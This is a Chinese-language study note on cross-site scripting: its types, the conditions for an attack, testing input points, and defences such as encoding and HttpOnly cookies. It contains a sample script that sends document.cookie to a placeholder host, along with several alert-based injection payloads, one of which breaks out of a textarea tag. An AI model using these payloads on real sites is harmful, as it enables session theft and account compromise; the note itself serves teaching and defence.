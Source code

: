 # XSS

[toc]

### 概述

#### 1.XSS（cross-site scripting）
跨站脚本攻击，通过提交数据的方式，向网页中注入javascript脚本，然后脚本会在客户端执行
重点是在html中插入javascript脚本，并让用户执行

#### 2.XSS类型

##### （1）stored XSS attacks（最常见）
用户的输入会被存储在目标服务器上，比如：留言、评论等
当有其他用户浏览这些数据时，就会执行注入的脚本

##### （2）reflected XSS attacks
直接返回用户的输入，不会存储，比如：错误信息
所以攻击者需要构建一个url（该url会注入javascript脚本），诱骗用户点击该url，从而使得脚本能够在用户端执行

##### （3）DOM XSS attacks（少见）
注入的脚本不会传输到服务端，这是与前两种的本质区别

#### 3.实现XSS攻击条件
* 有可控的输入点
* 输入信息可以在用户的浏览器中显示
* 能够输入可执行的javascript脚本
  * 需要输入时，未对数据进行过滤、编码等
* 用户访问时，浏览器能够将这些输入信息解析为javascript脚本，并且执行

#### 4.如何利用XSS攻击
* 窃取cookie
```html
<script>
Document.location='http://www.xxx.com/cookie.php?cookie='+document.cookie;
</script>
```

* 网络钓鱼
利用正规网站的XSS漏洞，构建一个url，然后该url中插入脚本
当用户点击该url中，会打开该正规网站，并弹出一个小窗口（该小窗口就是插入的脚本），
让用户输入账号密码，从而窃取到用户的账号密码
</br>
* 窃取客户端信息
可以注入监听脚本，对于用户是无感知的，但是可以记录用户按键的信息，然后发送给攻击者

***

### 攻击

#### 1.寻找可攻击的输入点

##### （1）找到一个输入点

##### （2）测试输入点
输入正常的信息，输入后，查看源码，查看输入的信息显示在哪里了
然后查看该信息所处的上下文（即是不是在某个标签内等等）
从而决定如何实施XSS攻击

#### 2.简单的攻击测试
根据上下文嵌入测试脚本

##### （1）基本测试
当所处上下文可以插入脚本
```html
<script>alert("test")</script>
```

##### （2）闭合标签
当所处上下文只允许输入文本信息
* 上下文
```html
<textarea>用户输入</textarea>
```

* 用户输入
```html
</textarea><script>alert("test")</script>
<!-- 首先需要闭合textarea标签，否则直接输入脚本标签，会被当做文本处理，不会被执行 -->
```

* 防护：黑名单过滤
过滤特定的关键词，比如过滤掉`<script>`这个关键词

##### （3）多标签测试
能触发脚本执行的标签不只有`<script>`，还有其他很多
```html
<a href="javascript:alert("test")">
<IMG SRC="javascript:alert("test")">
```

***
### 防护

#### 1.XSS Filter
匹配危险字符（比如：`<script>`），替换成安全字符，比如空格

* 浏览器的XSS Filter只能防止 反射型XSS，无法防止其他类型的XSS（比如存储型，浏览器无法区分哪些是恶意的脚本）
  * 发送请求时，过滤请求中的数据
  * 现在浏览器都弃用XSS Filter
* 服务端的XSS Filter可以防止 反射型XSS和存储型
  * 返回响应时，过滤渲染模板时用的数据

#### 2.实体化编码
对用户的输入进行编码，在服务端进行，严格限定了数据就是数据，避免数据被当成代码执行

##### （1）html编码
当浏览器渲染html时，看到编码后的内容，会显示成相应的字符
|编码前|编码后|显示|
|-|-|-|
|&|`&amp;`|&amp;|
|<|`&lt;`|&lt;|
|>|`&gt;`|&gt;|
|"|`&quot;`|&quot;|
|'|`&#x27;` 或者 `&apos;`|&#x27; 或者 &apos;|
|/|`&#x2F;`|&#x2F;|

##### （2）javascript编码
当用户输入的信息需要被嵌入到javascript代码块中，利用javascript编码，防止用户的输入的内容被执行
|编码前|编码后|显示|
|-|-|-|
|'|`\'`|\'|
|"|`\"`|\"|

#### 3.HttpOnly
给cookie设置一个属性，那么浏览器就会禁止javascript读取这个cookie，从而避免了cookie被窃取
* 没有广泛应用，因为从业务便利性的角度考虑，比如网站做广告推荐时，会利用js脚本读取用户cookie以作精确推广
